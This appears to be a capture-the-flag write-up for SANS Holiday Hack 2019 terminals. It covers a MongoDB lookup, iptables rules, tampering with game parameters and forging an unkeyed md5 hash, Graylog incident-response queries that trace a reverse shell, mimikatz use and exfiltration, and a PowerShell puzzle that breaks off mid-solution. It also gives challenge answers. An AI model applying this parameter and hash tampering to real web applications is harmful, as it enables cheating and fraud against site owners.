> Hey! It's me, Holly Evergreen! My teacher has been locked out of the quiz database and can't remember the right solution.
> Without access to the answer, none of our quizzes will get graded.
> Can we help get back in to find that solution?
> I tried `lsof -i`, but that tool doesn't seem to be installed.
> I think there's a tool like `ps` that'll help too.  What are the flags I need?
> Either way, you'll need to know a teensy bit of Mongo once you're in.
> Pretty please find us the solution to the quiz!

Completed Dialog:
Holly Evergreen
> Woohoo! Fantabulous! I'll be the coolest elf in class.
> On a completely unrelated note, digital rights management can bring a hacking elf down.
> That ElfScrow one can really be a hassle.
> It's a good thing Ron Bowes is giving a talk on reverse engineering!
> _That_ guy knows how to rip a thing apart.  It's like he *breathes* opcodes!


Challenge-url:  
[https://docker2019.kringlecon.com/?challenge=mongo](https://docker2019.kringlecon.com/?challenge=mongo)


Location:  
netwars (NetWars)


#### MOTD
When we start the terminal, we are greeted with the following message:
```
'...',...'::'''''''''cdc,',,,,,,,cxo;,,,,,,,,:dl;,;;:;;;;;l:;;;cx:;;:::::lKXkc::
oc;''.',coddol;''';ldxxxxoc,,,:oxkkOkdc;,;:oxOOOkdc;;;:lxO0Oxl;;;;:lxOko::::::cd
ddddocodddddddxxoxxxxxkkkkkkxkkkkOOOOOOOxkOOOOOOO00Oxk000000000xdk00000K0kllxOKK
coddddxxxo::ldxxxxxxdl:cokkkkkOkxl:lxOOOOOOOkdlok0000000Oxok00000000OkO0KKKKKKKK
'',:ldl:,'''',;ldoc;,,,,,,:oxdc;,,,;;;cdOxo:;;;;;:ok0kdc;;;;:ok00kdc:::lx0KK0xoc
oc,''''';cddl:,,,,,;cdkxl:,,,,,;lxOxo:;;;;;:ldOxl:;;:;;:ldkoc;;::;;:oxo:::ll::co
xxxdl:ldxxxxkkxocldkkkkkkkkocoxOOOOOOOkdcoxO000000kocok000000kdccdk00000ko:cdk00
oxxxxxxxxkddxkkkkkkkkkdxkkkkOOOOOOxOOOOO00OO0Ok0000000000OO0000000000O0000000000
',:oxkxoc;,,,:oxkkxo:,,,;ldkOOkdc;;;cok000Odl:;:lxO000kdc::cdO0000xoc:lxO0000koc
l;'',;,,,;lo:,,,;;,,;col:;;;c:;;;col:;;:lc;;:loc:;:co::;:oo:;;col:;:lo:::ldl:::l
kkxo:,:lxkOOOkdc;;ldOOOOOkdc;:lxO0000ko:;:oxO000Oxl::cdk0000koc::ox0KK0ko::cok0K
kkkkOkOOOOOkOOOOOOOOOOOOOOOOOO0000000000O0000000000000000000000O000KKKKKK0OKKKKK
,:lxOOOOxl:,:okOOOOkdl;:lxO0000Oxl:cdk00000Odlcok000000koclxO00000OdllxOKKKK0kol
l;,,;lc;,,;c;,,;lo:;;;cc;;;cdoc;;;l:;;:oxoc::cc:::lxxl:::l:::cdxo:::lc::ldxoc:cl
KKOd:,;cdOXXXOdc;;:okKXXKko:;;cdOXNNKxl:::lkKNNXOo:::cdONNN0xc:::oOXNN0xc::cx0NW
XXXXX0KXXXXXXXXXK0XXXXXXNNNX0KNNNNNNNNNX0XNNNNNNNNN0KNNNNNNNNNK0NNNNNNNWNKKWWWWW
:lxKXXXXXOdcokKXXXXNKkolxKNNNNNN0xldOXNNNNNXOookXNNNNWN0xokKNNNNNNKxoxKWWNWWXOod
:;,,cdxl;,;:;;;cxOdc;;::;;:dOOo:;:c:::lk0xl::cc::lx0ko:::c::cd0Odc::c::cx0ko::lc
OOxl:,,;cdk0Oxo:;;;:ok00Odl:;;:lxO00koc:::ldO00kdl:::cok0KOxl:::cok0KOxl:::lx0KK
00000kxO00000000OxO000000000kk000000000Ok0KK00KKKK0kOKKKKKKKK0kOKKKKKKKK0k0KKKKK
:cok00000OxllxO000000koldO000000Odlok0KKKKKOxoox0KKKKK0koox0KKKKK0xoox0KKKKKkdld
;:,,:oxoc;;;;;;cokdl:;;:;;coxxoc::c:::lxkdc::c:::ldkdl::cc::ldkdl::lc::lxxoc:loc
OOkdc;;;:oxOOkoc;;;:lxO0Odl:;::lxO00koc:::lxO00kdl:::lxO00Odl::cox0KKOdl:cox0KK0
OOOOOOxk00000000Oxk000000000kk000000000Ok0KK0000KK0k0KKKKKKKK0OKKKKKKKKK00KKK0KK
c:ldOOOO0Oxoldk000000koldk000000kdlox0000K0OdloxOKK0K0kdlox0KKKK0xocok0KKK0xocld
;l:;;cooc;;;c:;:lddl:;:c:::ldxl:::lc::cdxo::coc::cddl::col::cddl:codlccldlccoxdc
000Odl;;:ok000koc;;cok0K0kdl::cdk0KKOxo::ldOKKK0xoccox0KKK0kocldOKKKK0xooxOKKKKK
0000000O0000000000O0KKK0KKKK00KKKK0KKKKK0KKKK0KKKKKKKKKK0KKKKKKKKKO0KKKKKKKKOkKK
c::ldO000Oxl:cok0KKKOxl:cdk0KKKOdl:cok0KK0kdl:cok0KK0xoccldk0K0kocccldOK0kocccco
;;;;;;cxl;;;;::::okc::::::::dxc::::::::odc::::::::ol:ccllcccclcccodocccccccdkklc

Hello dear player!  Won't you please come help me get my wish!
I'm searching teacher's database, but all I find are fish!
Do all his boating trips effect some database dilution?
It should not be this hard for me to find the quiz solution!

Find the solution hidden in the MongoDB on this system.
```


#### Solution
We start by trying to connect to the mongo database

```
elf@de490e548003:~$ mongo
MongoDB shell version v3.6.3
connecting to: mongodb://127.0.0.1:27017
2019-12-17T15:00:26.355+0000 W NETWORK  [thread1] Failed to connect to 127.0.0.1:27017, in(checking socket for error after poll), reason: Connection refused
2019-12-17T15:00:26.356+0000 E QUERY    [thread1] Error: couldn't connect to server 127.0.0.1:27017, connection attempt failed :
connect@src/mongo/shell/mongo.js:251:13
@(connect):1:6
exception: connect failed


Hmm... what if Mongo isn't running on the default port?
```

It seems that we need to find the port mongo is listening on.
We can do this by running the following command:

```
elf@de490e548003:~$ ps aux
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
elf          1  0.0  0.0  18508  3496 pts/0    Ss   14:53   0:00 /bin/bash
mongo        9  0.5  0.0 1016780 59484 ?       Sl   14:53   0:02 /usr/bin/mongod --quiet --fork --port 12121 --bind_ip 127.0.0.1 --logpath=/tmp/mongo.log
elf         54  0.0  0.0  34400  2928 pts/0    R+   15:01   0:00 ps aux
```
Alternatively, we could have checked out `sudo -l`
```
elf@de490e548003:~$ sudo -l
User elf may run the following commands on de490e548003:
    (mongo) NOPASSWD: /usr/bin/mongod --quiet --fork --port 12121 --bind_ip 127.0.0.1 --logpath\=/tmp/mongo.log
    (root) SETENV: NOPASSWD: /usr/bin/python /updater.py
```
In either case, we see that there is a mongo process running with the port flag 12121.
We connect to it and look around:
```
elf@de490e548003:/tmp$ mongo localhost:12121
MongoDB shell version v3.6.3
connecting to: mongodb://localhost:12121/test
MongoDB server version: 3.6.3
Welcome to the MongoDB shell.
For interactive help, type "help".
For more comprehensive documentation, see
        http://docs.mongodb.org/
Questions? Try the support group
        http://groups.google.com/group/mongodb-user
Server has startup warnings:
2019-12-17T14:53:59.109+0000 I CONTROL  [initandlisten]
2019-12-17T14:53:59.109+0000 I CONTROL  [initandlisten] ** WARNING: Access control is not enabled for the database.
2019-12-17T14:53:59.109+0000 I CONTROL  [initandlisten] **          Read and write access to data and configuration is unrestricted.
2019-12-17T14:53:59.109+0000 I CONTROL  [initandlisten]
2019-12-17T14:53:59.109+0000 I CONTROL  [initandlisten]
2019-12-17T14:53:59.109+0000 I CONTROL  [initandlisten] ** WARNING: /sys/kernel/mm/transparent_hugepage/enabled is 'always'.
2019-12-17T14:53:59.109+0000 I CONTROL  [initandlisten] **        We suggest setting it to 'never'
2019-12-17T14:53:59.109+0000 I CONTROL  [initandlisten]
> show dbs
admin   0.000GB
config  0.000GB
elfu    0.000GB
local   0.000GB
test    0.000GB
> use elfu
switched to db elfu
> show collections
bait
chum
line
metadata
solution
system.js
tackle
tincan
```

We see the interesting looking database 'solution'.

```
> db.solution.find()
{ "id" : "You did good! Just run the command between the stars: ** db.loadServerScripts();displaySolution(); **" }
```
Well, it seems like we did it, so lets just run that final command.
```
> db.loadServerScripts();displaySolution();
```

And we are done.


-----------------------------
### Smart Braces
#### Context
Initial Dialog:
Kent Tinseltooth
> OK, this is starting to freak me out!
> Oh sorry, I'm Kent Tinseltooth.  My Smart Braces are acting up.
> Do...  Do you ever get the feeling you can hear things?  Like, voices?
> I know, I sound crazy, but ever since I got these...  Oh!
> Do you think you could take a look at my Smart Braces terminal?
> I'll bet you can keep other students out of my head, so to speak.
> It might just take a bit of Iptables work.

Completed Dialog:
Kent Tinseltooth
> Oh thank you!  It's so nice to be back in my own head again.  Er, alone.
> By the way, have you tried to get into the crate in the Student Union?  It has an interesting set of locks.
> There are funny rhymes, references to perspective, and odd mentions of eggs!
> And if you think the stuff in your browser looks strange, you should see the page source...
> Special tools?  No, I don't think you'll need any extra tooling for those locks.
> BUT - I'm pretty sure you'll need to use Chrome's developer tools for that one.
> Or sorry, you're a Firefox fan?
> Yeah, Safari's fine too - I just have an ineffible hunger for a physical Esc key.
> Edge?  That's cool.  Hm?  No no, I was thinking of an unrelated thing.
> Curl fan?  Right on!  Just remember: the Windows one doesn't like double quotes.
> _Old school, huh?  Oh sure - I've got what you need right here..._


Challenge-url:  
[https://docker2019.kringlecon.com/?challenge=iptables](https://docker2019.kringlecon.com/?challenge=iptables)

Location:  
Student Union


#### MOTD
When we start the terminal, we are greeted with the following message (I added an image rahter than a transcript to preserve the coloring here):


#### Solution
This challenge is timed. You need to complete the iptables rules within 5 minutes. Note that there is nothing stopping you from trying multiple times. So the time limitation is not much of a problem.
We start by checking out the IOT Teeth Braces document:
```
elfuuser@e8bce7331ea7:~$ cat /home/elfuuser/IOTteethBraces.md 
# ElfU Research Labs - Smart Braces
### A Lightweight Linux Device for Teeth Braces
### Imagined and Created by ElfU Student Kent TinselTooth

This device is embedded into one's teeth braces for easy management and monitoring of dental status. It uses FTP and HTTP for management and monitoring purposes but also has SSH for remote access. Please 
refer to the management documentation for this purpose.

## Proper Firewall configuration:

The firewall used for this system is `iptables`. The following is an example of how to set a default policy with using `iptables`:

> sudo iptables -P FORWARD DROP

The following is an example of allowing traffic from a specific IP and to a specific port:

> sudo iptables -A INPUT -p tcp --dport 25 -s 172.18.5.4 -j ACCEPT


A proper configuration for the Smart Braces should be exactly:

1. Set the default policies to DROP for the INPUT, FORWARD, and OUTPUT chains.
2. Create a rule to ACCEPT all connections that are ESTABLISHED,RELATED on the INPUT and the OUTPUT chains.
3. Create a rule to ACCEPT only remote source IP address 172.19.0.225 to access the local SSH server (on port 22).
4. Create a rule to ACCEPT any source IP to the local TCP services on ports 21 and 80.
5. Create a rule to ACCEPT all OUTPUT traffic with a destination TCP port of 80.
6. Create a rule applied to the INPUT chain to ACCEPT all traffic from the lo interface.
```

Let's implement these rules.

```
elfuuser@e8bce7331ea7:~$ sudo iptables -P INPUT DROP
elfuuser@e8bce7331ea7:~$ sudo iptables -P FORWARD DROP
elfuuser@e8bce7331ea7:~$ sudo iptables -P OUTPUT DROP

elfuuser@e8bce7331ea7:~$ sudo iptables -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT
elfuuser@e8bce7331ea7:~$ sudo iptables -A OUTPUT -m state --state ESTABLISHED,RELATED -j ACCEPT

elfuuser@e8bce7331ea7:~$ sudo iptables -A INPUT -p tcp -s 172.19.0.225 --dport 22 -j ACCEPT
elfuuser@e8bce7331ea7:~$ sudo iptables -A OUTPUT -p tcp -d 172.19.0.225 --sport 22 -j ACCEPT

elfuuser@e8bce7331ea7:~$ sudo iptables -A INPUT -p tcp -m multiport --dports 21,80 -j ACCEPT
elfuuser@e8bce7331ea7:~$ sudo iptables -A OUTPUT -p tcp -m multiport --sports 21,80 -j ACCEPT

elfuuser@e8bce7331ea7:~$ sudo iptables -A OUTPUT -p tcp --dport 80 -j ACCEPT

elfuuser@e8bce7331ea7:~$ sudo iptables -A INPUT -i lo -j ACCEPT
```
We now wait a couple seconds for the background task to verify our rules and we are done.


NOTE:
> There seemed to be some small issues with this challenge where if you did not allow the MOTD to slowly play out, it would no longer properly verify your rules later.


-----------------------------
### Holiday Hack Trail
#### Context
Initial Dialog:
Minty Candycane
> Hi!  I'm Minty Candycane!
> I just LOVE this old game!
> I found it on a 5 1/4 floppy in the attic.
> You should give it a go!
> If you get stuck at all, check out this year's talks.
> One is about web application penetration testing.
> Good luck, and don't get dysentery!


Completed Dialog:
Minty Candycane
> You made it - congrats!
> Have you played with the key grinder in my room?  Check it out!
> It turns out: if you have a good image of a key, you can physically copy it.
> Maybe you'll see someone hopping around with a key here on campus.
> _Sometimes you can find it in the Network tab of the browser console._
> Deviant has a great talk on it at this year's Con.
> He even has a collection of key bitting templates for common vendors like Kwikset, Schlage, and Yale.


Challenge-url:  
[https://trail.elfu.org/gameselect/](https://trail.elfu.org/gameselect/)


Location:  
Dorm

#### Game Overview
The game is a reference to the legendary game series [Oregon Trail](https://en.wikipedia.org/wiki/The_Oregon_Trail_(series)).
When we start we get to select our difficulty. The difficulty refers to how hard it is to hack into the game, not just the difficulty of the game itself.
The game can be properly played, but the goal is ofcourse to win it by cheating.


Here are some screenshots to give you an idea of what this is all about.


First we can select our difficulty:



Then we always start at the following shop screen. There are some interesting things you can do here, but all challenges can be solved without really interacting with this screen. So we just always accept the default values and continue.


The next image shows what the game itself looks like. Note the 'URL-bar' to simulate a real browser game.
The goal is to cover the distance of 8000 without losing all your characters. Pressing 'Go' will increase your distance travelled and trigger all kinds of events.


If you manage to complete the game, the result looks like this:


#### Solution
We will go over each of the difficulties, even though only one is required to get the achievement.

##### Easy mode
We start of course with the easy challenge. We notice from the screenshots above that the URL contains a buch of GET parameters.
Remember that the goal is to cover the full 8000 distance without losing before that point.

We immediately notice the 'distance' parameter in the url bar. We try to update it to 7999 and press enter.
The game screen updates to this:


Great! We kept all our guys alive and we only need to travel a distance of 1 now. We simply press 'Go' once and we have completed the first challenge!

##### Medium mode
We load into the medium difficulty version of the game and notice one huge difference, the parameters are no longer in the URL!


This time, they are being passed as POST parameters. We could easily intercept the requests with burp and modify them how we want, but lets keep it even more simple.
We can just have a look at the page source and notice that there is a `<div>` element called `statusContainer`. This value contains all the variables that were previously kept in the url bar.
We update again the value of distance to 7999.


We now press 'Go' once and we have completed the Medium challenge!

##### Hard mode
This is where things get interesting. This challenge is identical to the medium difficulty, with one key exception.
The `statusContainer` object this time also contains a hash value. The server sends us this hash value together with all of the other status values.


This hash is taken on the server side over all of the other status values. If we update any values and send them back to the server, the server will compare them to the hash we send it.
If they do not match, the server will reject our request and tell us that we have an issue:


While we were originally stuck here for a little while, we decided to throw one of the hashes we received in [crackstation](https://crackstation.net/). To our suprise, the hash was known:


The Hash is just an md5 of the value '1626'! This tells us two important things:
1. The server is not using a key to secure their hashes
2. The hashes are of a (very simple) numeric value

After playing around with the game status and the received hashes for a while, we determined that the server was just adding up all the status values and taking a hash of the total. We could have also figured this out by watching the talk [Web Apps: A Trailhead](https://www.youtube.com/watch?v=0T6-DQtzCgM). At a certain point, the server side code for calculating the hash shows up on screen, also showing us how the hash value is being calculated:


Our objective is now simple, we update two values:
- The distance
- The hash

Start of with a clean slate (hash of value 1626) and we increase the distance from 0 to 7999. We then generate a hash `md5(1626 + 7999)` and change the browser value to reflect that.
In linux we can do this easily:
```
polle@polle-pc:~ $ echo -n "$((1626 + 7999))" | md5sum
a330f9fecc388ce67f87b09855480ca3  -
```
There we have our new hash value. We update both values in the source code as we did for the medium challenge and we press 'Go' once.

We have completed the hard challenge! That was fun!


-----------------------------
### Graylog
#### Context
Initial Dialog:
Pepper Minstix
> It's me - Pepper Minstix.
> Normally I'm jollier, but this Graylog has me a bit mystified.
> Have you used Graylog before? It is a log management system based on Elasticsearch, MongoDB, and Scala.
> Some Elf U computers were hacked, and I've been tasked with performing incident response.
> Can you help me fill out the incident response report using our instance of Graylog?
> It's probably helpful if you know a few things about Graylog.
> Event IDs and Sysmon are important too.  Have you spent time with those?
> Don't worry - I'm sure you can figure this all out for me!
> Click on the _All messages_ Link to access the Graylog search interface!
> Make sure you are searching _in all messages_!
> The Elf U Graylog server has an integrated incident response reporting system. Just mouse-over the box in the lower-right corner.
> Login with the username `elfustudent` and password `elfustudent`.

Completed Dialog:
Pepper Minstix
> That's it - hooray!
> Have you had any luck retrieving scraps of paper from the Elf U server?
> You might want to look into SQL injection techniques.
> OWASP is always a good resource for web attacks.
> For blind SQLi, I've heard Sqlmap is a great tool.
> In certain circumstances though, you need custom tamper scripts to get things going!


Challenge-url:  
[https://incident.elfu.org/](https://incident.elfu.org/)


Other Links:  
[https://graylog.elfu.org/](https://graylog.elfu.org/)
[https://report.elfu.org/](https://report.elfu.org/)


Location:  
Dorm


#### Solution
Upon logging in with the provided credentials, we end up on the search interface for graylog.


We are provided with 10 different challenges that we need to solve.

##### Challenge 1
Objective:
> Minty CandyCane reported some weird activity on his computer after he clicked on a link in Firefox for a cookie recipe and downloaded a file.
> What is the full-path + filename of the first malicious file downloaded by Minty?

Solution:
> C:\Users\minty\Downloads\cookie_recipe.exe

Search:  
We can simply search the logs for a filename containing the word cookie.
```
TargetFilename:/.+cookie.+/
```


##### Challenge 2
Objective:
> The malicious file downloaded and executed by Minty gave the attacker remote access to his machine.
> What was the ip:port the malicious file connected to first?

Solution:
> 192.168.247.175:4444

Search:  
```
CommandLine:/.+cookie_recipe.exe/
```
Now find the execution of the .exe and search for events in a scope of 1 minute around that event.
We then also quickly find the network connection.  

Alternatively, we can look for
```
ProcessImage:/.+cookie_recipe.exe/
```
And find the EventID of 3 (network traffic)

##### Challenge 3
Objective:
> What was the first command executed by the attacker?

Solution:
> whoami

Search:  
We can search for all commands (processes) that have the cookie recipe as the parent process
```
ParentProcessImage:/.+cookie_recipe.+/
```

##### Challenge 4
Objective:
> What is the one-word service name the attacker used to escalate privileges?

Solution:
> webexservice

Search:  
We can reuse the last search we did
```
ParentProcessImage:/.+cookie_recipe.+/
```
And then track the userAccount value for each process over time.
We will see that soon the user executing commands with the cookie scripts as parent process is no longer minty.
The last action executed as minty shows us the process used to escalate.


Do note that our regex search includes both the `cookie_recipe.exe` and `cookie_recipe2.exe` processes.


##### Challenge 5
Objective:
> What is the file-path + filename of the binary ran by the attacker to dump credentials?

Solution:
> C:\cookie.exe

Search:  
We continue with the same search string we were using before.
```
ParentProcessImage:/.+cookie_recipe.+/
```
We see that the attacker mistypes and tries to run mimikatz. He then corrects himself and runs the binary named cookie.exe.


##### Challenge 6
Objective:
> The attacker pivoted to another workstation using credentials gained from Minty's computer.
> Which account name was used to pivot to another machine?

Solution:
> alabaster

Search:  
Windows Event Id 4624 is generated when a user network logon occurs successfully. We can also filter on the attacker's IP using SourceNetworkAddress.
```
EventID: 4624 AND SourceNetworkAddress:192.168.247.175
```


##### Challenge 7
Objective:
> What is the time ( HH:MM:SS ) the attacker makes a Remote Desktop connection to another machine?

Solution:
> 06:04:28

Search:  
LogonType 10 is used for successful network connections using the RDP client.
```
EventID: 4624 AND LogonType:10
```

##### Challenge 8
Objective:
> The attacker navigates the file system of a third host using their Remote Desktop Connection to the second host.
> What is the SourceHostName,DestinationHostname,LogonType of this connection?

Solution:
> elfu-res-wks2,elfu-res-wks3,3

Search:  
The attacker has GUI access to workstation 2 via RDP.
They likely use this GUI connection to access the file system of workstation 3 using explorer.exe via UNC file paths.
This is likely why we don't see any cmd.exe or powershell.exe processes.
```
SourceHostName:"ELFU-RES-WKS2" AND EventID:4624
```
However, we still see the successful network authentication for this with event id 4624 and logon type 3.

##### Challenge 9
Objective:
> What is the full-path + filename of the secret research document after being transferred from the third host to the second host?

Solution:
> C:\Users\alabaster\Desktop\super\_secret\_elfu\_research.pdf

Search:  
We can look for sysmon file creation event id of 2 with a source of workstation 2.
We can also use regex to filter out overly common file paths using something like:
```
source:"elfu-res-wks2" AND EventID:2 AND NOT TargetFilename:/.+AppData.+/ AND NOT TargetFilename:/.+updatestore.+/ AND NOT TargetFilename:/.+AppData.+/
```

##### Challenge 10
Objective:
> What is the IPv4 address (as found in logs) the secret research document was exfiltrated to?

Solution:
> 104.22.3.84

Search:  
We can look for the original document in CommandLine using regex.
```
super_secret_elfu_research.pdf
```
When we do that, we see a long PowerShell command using Invoke-Webrequest to a remote URL of https://pastebin.com/post.php.
We can pivot off of this information to look for a sysmon network connection id of 3 with a source of elfu-res-wks2 and DestinationHostname of pastebin.com.

Alternatively, select the poweshell command and view events in a 5 seconds window around it.

That is all for the graylog terminal!


-----------------------------
### Powershell Laser
#### Context
Initial Dialog:
Sparkle Redberry
> I'm Sparkle Redberry and Imma chargin' my laser!
> Problem is: the settings are off.
> Do you know any PowerShell?
> It'd be GREAT if you could hop in and recalibrate this thing.
> It spreads holiday cheer across the Earth ...
> ...  when it's working!

Completed Dialog:
Sparkle Redberry
> You got it - three cheers for cheer!
> For objective 5, have you taken a look at our Zeek logs?
> Something's gone wrong.  But I hear someone named Rita can help us.
> Can you and she figure out what happened?


Challenge-url:  
[https://docker2019.kringlecon.com/?challenge=powershell](https://docker2019.kringlecon.com/?challenge=powershell)

Location:  
The Laboratory


#### MOTD
```
🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲
🗲                                                                                🗲
🗲 Elf University Student Research Terminal - Christmas Cheer Laser Project       🗲
🗲 ------------------------------------------------------------------------------ 🗲
🗲 The research department at Elf University is currently working on a top-secret 🗲
🗲 Laser which shoots laser beams of Christmas cheer at a range of hundreds of    🗲
🗲 miles. The student research team was successfully able to tweak the laser to   🗲
🗲 JUST the right settings to achieve 5 Mega-Jollies per liter of laser output.   🗲
🗲 Unfortunately, someone broke into the research terminal, changed the laser     🗲
🗲 settings through the Web API and left a note behind at /home/callingcard.txt.  🗲
🗲 Read the calling card and follow the clues to find the correct laser Settings. 🗲
🗲 Apply these correct settings to the laser using it's Web API to achieve laser  🗲
🗲 output of 5 Mega-Jollies per liter.                                            🗲
🗲                                                                                🗲
🗲 Use (Invoke-WebRequest -Uri http://localhost:1225/).RawContent for more info.  🗲
🗲                                                                                🗲
🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲🗲
```


#### Solution
As the MOTD tells us, we have a look at the callingcard.

```
PS /home/elf> type /home/callingcard.txt
What's become of your dear laser?
Fa la la la la, la la la la
Seems you can't now seem to raise her!
Fa la la la la, la la la la
Could commands hold riddles in hist'ry?
Fa la la la la, la la la la
Nay! You'll ever suffer myst'ry!
Fa la la la la, la la la la
```

It clearly tells us that we should have a look at the command history on this machine.
Before we do that though, let's also have a look at the URI from the MOTD:

```
PS /home/elf> (Invoke-WebRequest -Uri http://localhost:1225/).RawContent
HTTP/1.0 200 OK
Server: Werkzeug/0.16.0
Server: Python/3.6.9
Date: Tue, 17 Dec 2019 09:19:54 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 860

<html>
<body>
<pre>
----------------------------------------------------
Christmas Cheer Laser Project Web API
----------------------------------------------------
Turn the laser on/off:
GET http://localhost:1225/api/on
GET http://localhost:1225/api/off

Check the current Mega-Jollies of laser output
GET http://localhost:1225/api/output

Change the lense refraction value (1.0 - 2.0):
GET http://localhost:1225/api/refraction?val=1.0

Change laser temperature in degrees Celsius:
GET http://localhost:1225/api/temperature?val=-10

Change the mirror angle value (0 - 359):
GET http://localhost:1225/api/angle?val=45.1

Change gaseous elements mixture:
POST http://localhost:1225/api/gas
POST BODY EXAMPLE (gas mixture percentages):
O=5&H=5&He=5&N=5&Ne=20&Ar=10&Xe=10&F=20&Kr=10&Rn=10
----------------------------------------------------
</pre>
</body>
</html>
```

That seems to give us a clear set of instructions to turn on the laser. It seems that we need to
1. Shut down the laser
2. Update the refraction, temperature and angle values with GET requests
3. Update the gaseous element mixture with a POST request
4. Turn on the laser
5. Check the laser output.

In order to do that though, we will need to find the correct settings first.
So let's first have a look at the command history

```
PS /home/elf> Get-History

  Id CommandLine
  -- -----------
   1 Get-Help -Name Get-Process
   2 Get-Help -Name Get-*
   3 Set-ExecutionPolicy Unrestricted
   4 Get-Service | ConvertTo-HTML -Property Name, Status > C:\services.htm
   5 Get-Service | Export-CSV c:\service.csv
   6 Get-Service | Select-Object Name, Status | Export-CSV c:\service.csv
   7 (Invoke-WebRequest http://127.0.0.1:1225/api/angle?val=65.5).RawContent
   8 Get-EventLog -Log "Application"
   9 I have many name=value variables that I share to applications system wide. At a command I will reveal my secrets once you Get my Child Items.
  10 (Invoke-WebRequest -Uri http://localhost:1225/).RawContent
```

We immediately notice the value for the angle (`angle?val=65.5`). We cannot be sure that this is the correct value, but we absolutely note it down in case it turns out to be.

We also get another clue:
> I have many name=value variables that I share to applications system wide. At a command I will reveal my secrets once you Get my Child Items.

This is referring to name-value pairs system wide. We should have a look at the environment variables

```
PS /home/elf> gci Env:* | Select-Object Value

Value
-----
false
en_US.UTF-8
laserterminal
/var/mail/elf
laserterminal
en_US.UTF-8
elf
/home/elf/elf
/home/elf
a6e1be0d-4ded-4727-9160-d5a2cdb0fbdf
/opt/microsoft/powershell/6:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
/bin/su
Squeezed and compressed I am hidden away. Expand me from my prison and I will show you the way. Recurse through all /etc and Sort on my LastWriteTime to reveal im the newest of all.
elf
/var/cache/microsoft/powershell/PSModuleAnalysisCache/ModuleAnalysisCache
xterm
1
5ff2894c232d
/home/elf/.local/share/powershell/Modules:/usr/local/share/powershell/Modules:/opt/microsoft/powershell/6/Modules
elf
elf
/home/elf
```
We see a new hint for us to follow:
> Squeezed and compressed I am hidden away.
> Expand me from my prison and I will show you the way.
> Recurse through all /etc and Sort on my LastWriteTime to reveal im the newest of all.


We search for the archive and find it quickly.
We then extract it and find two things inside:
- A binary file
- A new hint.

```
PS /etc> gci -R | sort LastWriteTime -Descending

    Directory: /etc/apt

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
--r---          12/17/19 10:17 AM        5662902 archive

PS /tmp> New-Item -ItemType directory out


    Directory: /tmp

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----          12/17/19 10:27 AM                out

PS /tmp> Expand-Archive -Path /etc/apt/archive -DestinationPath /tmp/out

PS /tmp/out> dir


    Directory: /tmp/out

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----          12/17/19 10:28 AM                refraction

PS /tmp/out> cd ./refraction/
PS /tmp/out/refraction> dir


    Directory: /tmp/out/refraction

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
------           11/7/19 11:57 AM            134 riddle
------           11/5/19  2:26 PM        5724384 runme.elf

```

We can run the binary after we properly set it's permissions. This is a linux system so we use chmod to make this binary executable.

```
PS /tmp/out/refraction> chmod +x ./runme.elf
PS /tmp/out/refraction> ./runme.elf
refraction?val=1.867
```

Excellent, we found the value for refraction (`refraction?val=1.867`). We now check out the riddle file.

```
PS /tmp/out/refraction> type ./riddle
Very shallow am I in the depths of your elf home. You can find my entity by using my md5 identity:

25520151A320B5B0D21561F92C8F6224
```

So, we need to get a list of md5 hashes for each file in the home directory and then find the one that matches the given md5 hash.
We can do so using the following powershell command:

```
PS /home/elf> Get-ChildItem -R -File | Foreach {Get-FileHash -Algorithm MD5 $_.fullname} | Where-Object {$_.Hash -eq '25520151A320B5B0D21561F92C8F6224'}

Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
MD5             25520151A320B5B0D21561F92C8F6224                                       /home/elf/depths/produce/thhy5hll.txt

PS /home/elf> type /home/elf/depths/produce/thhy5hll.txt
temperature?val=-33.5

I am one of many thousand similar txt's contained within the deepest of /home/elf/depths. Finding me will give you the most strength but doing so will require Piping all the FullName's to Sort Length.
```

Great, we find the correct setting for the temperature (`temperature?val=-33.5`). We also see a new hint telling us to sort all the files on their fullname size.
We can do this fairly easily, do note that we need `Format-List` to make sure we get the full output.

```
PS /home/elf> gci -R -File | select-object FullName, @{Name="Nlength";Expression={$_.FullName.Length}} | sort-object Nlength | select -last 1 | Format-List

FullName : /home/elf/depths/larger/cloud/behavior/beauty/enemy/produce/age/chair/unknown/escape/vote/long/writer/behind/ahead/thin/occasionally/explore/tape/wherever/practical/therefore/c
           ool/plate/ice/play/truth/potatoes/beauty/fourth/careful/dawn/adult/either/burn/end/accurate/rubbed/cake/main/she/threw/eager/trip/to/soon/think/fall/is/greatest/become/accident
           /labor/sail/dropped/fox/0jhj5xz6.txt
Nlength  : 388
PS /home/elf> type /home/elf/depths/larger/cloud/behavior/beauty/enemy/produce/age/chair/unknown/escape/vote/long/writer/behind/ahead/thin/occasionally/explore/tape/wherever/practical/therefore/cool/plate
/ice/play/truth/potatoes/beauty/fourth/careful/dawn/adult/either/burn/end/accurate/rubbed/cake/main/she/threw/eager/trip/to/soon/think/fall/is/greatest/become/accident/labor/sail/dropped/fox/0jhj5xz6.txt
Get process information to include Username identification. Stop Process to show me you're skilled and in this order they must be killed:

bushy
alabaster
minty
holly

Do this for me and then you /shall/see .
```

No setting found this time, but we do get new instructions! We do as the file commands and kill the processes in the desired order.

```
PS /home/elf> Get-Process -IncludeUserName

     WS(M)   CPU(s)      Id UserName                       ProcessName
     -----   ------      -- --------                       -----------
     28.83     1.92       6 root                           CheerLaserServi
      3.37     0.03       1 root                           init
      0.75     0.00      23 bushy                          sleep
      0.77     0.00      26 alabaster                      sleep
      0.80     0.00      27 minty                          sleep
      0.86     0.00      29 holly                          sleep
      3.49     0.00      30 root                           su

